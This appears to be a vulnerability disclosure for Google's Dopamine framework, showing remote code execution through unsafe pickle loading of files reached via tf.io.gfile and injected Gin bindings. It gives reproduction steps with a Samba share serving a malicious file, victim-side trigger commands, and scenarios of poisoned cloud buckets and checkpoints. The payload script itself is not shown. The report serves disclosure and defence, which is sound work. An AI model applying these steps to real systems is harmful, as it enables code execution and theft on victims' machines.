




# `Dopamine` - Version `2.0` (Pre Keras release) / Remote Code Execution (RCE) via Insecure Deserialization

* https://github.com/google/dopamine

## Important

Due to the nature and impact of an RCE (before publishing the details via PR in the repository), and Dopamine is a Google project with over 10.9K stars and 1.4K forks on GitHub, I verified that the project currently does not accept Pull Requests (only Issues and Feature Requests), and therefore the corresponding PR cannot be sent.

* https://github.com/google/dopamine?tab=contributing-ov-file
* *"Due to lack of bandwidth, we are not accepting pull requests at this time."*  

## Introduction

**Usually, insecure deserialization vulnerabilities using `pickle` are related to the deserialization of a `.pkl` file (among others), which turns the vulnerability into a sort of out-of-scope "self-command-injection".**

**However, below are two (2) ways to reproduce RCE in `Dopamine`, without local intervention by a third party to modify files that allow code execution during the deserialization process.**

**For both cases, two (2) different devices were used to simulate the interaction between an attacking machine (Raspberry Pi with IP 192.168.1.90) and a victim machine (Windows with IP 192.168.1.88).**

## Vulnerability description

The vulnerability is rooted in the insecure use of the `pickle` module to deserialize data from files accessed through the `tf.io.gfile` abstraction layer. While `pickle` is known to be insecure, the use of `tf.io.gfile` significantly expands the attack surface by allowing the application to load and deserialize malicious payloads from remote URIs (e.g., `gs://`, `s3://`, or UNC paths) that an attacker can inject via configuration or API parameters.

### Vector 1: Abstraction Vector using `tf.io.gfile`

In the Colab utility module, the function `load_statistics` is used to restore training metrics. It constructs a path and opens it using `tf.io.gfile.GFile`, which blindly supports remote schemes. The resulting file object is then passed directly to `pickle.load`.

**Vulnerable code in `dopamine/colab/utils.py`:**

```python
# Line 174
  with tf.io.gfile.GFile(log_file, 'rb') as f:
    return pickle.load(f), iteration_number
```

### Vector 2: Configuration Injection via Gin-Config

The `Checkpointer` class, responsible for saving and restoring agent states, is marked as `@gin.configurable`. This allows an attacker to hijack the `base_directory` parameter using Gin bindings (e.g., `--gin_bindings="Checkpointer.base_directory='Z:/checkpoints'"`). When the system attempts to restore a checkpoint, it accesses the attacker-controlled path and deserializes the payload.

**Vulnerable code in `dopamine/discrete_domains/checkpointer.py`:**

```python
# Line 203
  def _load_data_from_file(self, filename):
    if not tf.io.gfile.exists(filename):
      return None
    with tf.io.gfile.GFile(filename, 'rb') as fin:
      return pickle.load(fin)
```

## Technical Impact Analysis

### Project Purpose & Context

Dopamine is a high-performance research framework developed by **Google** for the fast prototyping of Deep Reinforcement Learning (DRL) algorithms. With over **10.9K stars** and **1.4K forks** on GitHub, it serves as a foundational tool for the AI research community, prioritizing flexibility, reproducibility, and ease of use. It provides optimized implementations in JAX and TensorFlow for major agents such as DQN, Rainbow, SAC, and PPO, supporting critical research environments like Atari and MuJoCo. Its widespread adoption makes it a central component in modern AI development pipelines.

### Platform & Deployment Environment

Dopamine is typically deployed in high-compute and collaborative environments:
*   **Google Colab & Jupyter Notebooks**: Heavily used for rapid experimentation, frequently loading remote baselines and statistics.
*   **Local Research Workstations**: Running on high-end hardware with dedicated GPU resources.
*   **HPC & Cloud Clusters**: Deployed at scale in Google Cloud, AWS, and Azure for distributed training using JAX/TF.
*   **MLOps Pipelines**: Integrated into automated workflows that move models and data between storage buckets and compute nodes.

### Comprehensive Risk Assessment

The presence of a Remote Code Execution (RCE) vulnerability in a core Google AI framework presents critical risks:
*   **Compute Resource Hijacking**: Attackers can seize expensive GPU/TPU resources for unauthorized tasks, such as large-scale crypto-mining.
*   **Intellectual Property & Data Theft**: Exposure of proprietary research data, private training sets, and valuable model weights.
*   **Lateral Movement**: In cluster or cloud VPC environments, compromising a single training node can be used as a beachhead for lateral movement across the infrastructure.
*   **Research Integrity Poisoning**: Attackers can silently manipulate training outcomes or poison model checkpoints, leading to fraudulent or manipulated scientific results.
*   **Supply Chain Propagation**: Given its 1,400+ forks, vulnerabilities in the core Dopamine library propagate to numerous downstream projects and specialized industrial AI applications.

## Attack Scenario

### Who wants to exploit a particular vulnerability?

Adversaries interested in this vulnerability include:
*   **Resource Hijackers**: Individuals or groups seeking high-compute (GPU/TPU) resources for unauthorized crypto-mining or large-scale compute tasks.
*   **Industrial Espionage & Research Competitors**: Actors aiming to steal proprietary DRL innovations, pre-trained model weights, or private training logs from major AI laboratories.
*   **Nation-State Actors**: Interested in long-term persistence and lateral movement within cloud environments that host sensitive ML/AI workloads.

### For what gain?

The objectives of such an exploit include:
*   **Theft of Intellectual Property**: Exfiltration of highly valuable model weights and training datasets that cost millions to produce.
*   **Sabotage & Poisoning**: Silently corrupting training checkpoints to invalidate research results or to plant "backdoors" into AI behaviors that only manifest under specific conditions.
*   **Lateral Movement Beachhead**: Using the compromised research node as a trusted pivot point to attack more sensitive internal infrastructure.

### In what way?

An attacker can execute this exploitation through several practical methods:
1.  **Poisoned Performance Baselines**: An attacker could publicly share "optimized pre-trained checkpoints" (e.g., on a malicious GitHub repo or public cloud bucket). A researcher attempting to use these as a starting point for their own experiment by pointing `base_dir` to the attacker’s URI triggers the RCE upon loading.
2.  **Configuration Hijacking in Shared Platforms**: In environments where training parameters are passed via API or command-line (like training-as-a-service platforms), an attacker can inject malicious Gin bindings (`--gin_bindings`) to redirect Dopamine from a local safe path to a remote malicious URI.
3.  **Lateral Infection in Research Clusters**: If an attacker compromises a single worker or a shared network storage (NFS/Cloud Bucket) used by a research cluster, they can replace legitimate checkpoints with malicious ones, ensuring that any other node attempting to resume training or evaluate the model will also be compromised.


# Reproduction steps for Abstraction Vector using `tf.io.gfile`

## On the Raspberry (attacker)

```bash
kw0@kw0l4b:~ $ hostname -I | awk '{print $1}'
192.168.1.90
kw0@kw0l4b:~ $
```

### Shared Resource Configuration (SMB):
1. **Install Samba**: `sudo apt update && sudo apt install samba samba-common-bin -y`
2. **Prepare the attack directory**:
    ```bash
    mkdir ~/lab_attack
    chmod 755 /home/kw0  # Allows Samba to access the HOME
    chmod -R 777 ~/lab_attack
    ```
3. **Configure Samba**: Add to the end of `/etc/samba/smb.conf`:
    ```ini
    [lab_share]
       path = /home/kw0/lab_attack
       read only = no
       guest ok = yes
       force user = kw0
    ```
    *Note: `force user` ensures that external requests have the permissions of your local user.*
4. **Payload Generation on the Raspberry**:
    Run the specialized `exploit.py` script to generate the `log_0` file directly in the shared path:
    ```bash
    python exploit.py
    ```
    *(Success: The log_0 file will be created in /home/kw0/lab_attack/ and will be ready to be served via Samba).*



## On Windows (victim)

```powershell
PS L:\HTTP_Code_Filleter\OT2\dopamine> Get-NetIPAddress -AddressFamily IPv4 | Where-Object PrefixOrigin -eq "Dhcp" | Select-Object -ExpandProperty IPAddress
192.168.1.88
PS L:\HTTP_Code_Filleter\OT2\dopamine>
```

### Exploit Execution:
1. **Delete previous network bridge**:
    `net use Z: /delete`
2. **Create the network bridge**:
    ```powershell
    net use Z: \\192.168.1.90\lab_share /persistent:no
    ```
3. **Launch deserialization**:
    ```bash
    python -c "from dopamine.colab import utils; utils.load_statistics(r'Z:', iteration_number=0)"
    ```



# Reproduction steps for Configuration Injection via Gin-Config

## On the Raspberry (attacker)

```bash
kw0@kw0l4b:~ $ hostname -I | awk '{print $1}'
192.168.1.90
```

### Generate the malicious checkpoint structure to be served via SMB:

```bash
# Run the generator script on the Raspberry
python exploit.py
```
*(Success: ~/lab_attack/checkpoints/ckpt.0 and the sentinel will be created).*

### Configure the File Server (Samba)
Ensure the `[lab_share]` resource points to `~/lab_attack` and restart the service:
```bash
sudo systemctl restart smbd
```



## On Windows (victim)
```powershell
PS L:\HTTP_Code_Filleter\OT2\dopamine> Get-NetIPAddress -AddressFamily IPv4 | Where-Object PrefixOrigin -eq "Dhcp" | Select-Object -ExpandProperty IPAddress
192.168.1.88
```

---

### Connect the Network Bridge (Windows Victim)
From the Windows machine, map the Raspberry shared folder:

```powershell
net use Z: \\192.168.1.90\lab_share /persistent:no
```

### Remote Trigger Injection (Gin-Config)
Create the configuration file pointing to the Raspberry network drive:

```powershell
Set-Content -Path attacker.gin -Value "Checkpointer.base_directory = 'Z:/checkpoints'" -Encoding Ascii
```

### Remote RCE Execution
The victim loads the malicious configuration from the Raspberry, triggering code execution (RCE):

```powershell
python -c "import gin; from dopamine.discrete_domains import checkpointer; gin.parse_config_files_and_bindings(['attacker.gin'], []); cp = checkpointer.Checkpointer(); cp.load_checkpoint(0)"
```



## Other RCE Reproduction Vectors using Google Cloud or AWS

## The "Local Access" bypass

In cloud environments (Google Cloud, AWS), `tf.io.gfile` natively supports URI schemes like `gs://` (Google Cloud Storage) and `s3://` (Amazon S3).
- **Scenario**: If an application or service based on Dopamine (for example, a training-as-a-service platform) allows the user to configure the `base_dir` or `log_path`.
- **Exploitation**: An attacker does not need access to the server's file system. They only need to provide a path like `gs://attacker-bucket/malicious_experiment/`. The server, when trying to "read its own logs/checkpoints", will download and deserialize the payload from the bucket controlled by the attacker.

## Persistence and Lateral Movement in Clusters

In distributed training (JAX/TF):
- If the training cluster shares a network file system (NFS) or a checkpoint bucket.
- An attacker who compromises a single worker (or who has permissions to write to the shared storage area) can plant a malicious checkpoint.
- When the master node or any other worker tries to restore the state to continue training (`Checkpointer.load_checkpoint`), the attacker's code will be executed on that new node.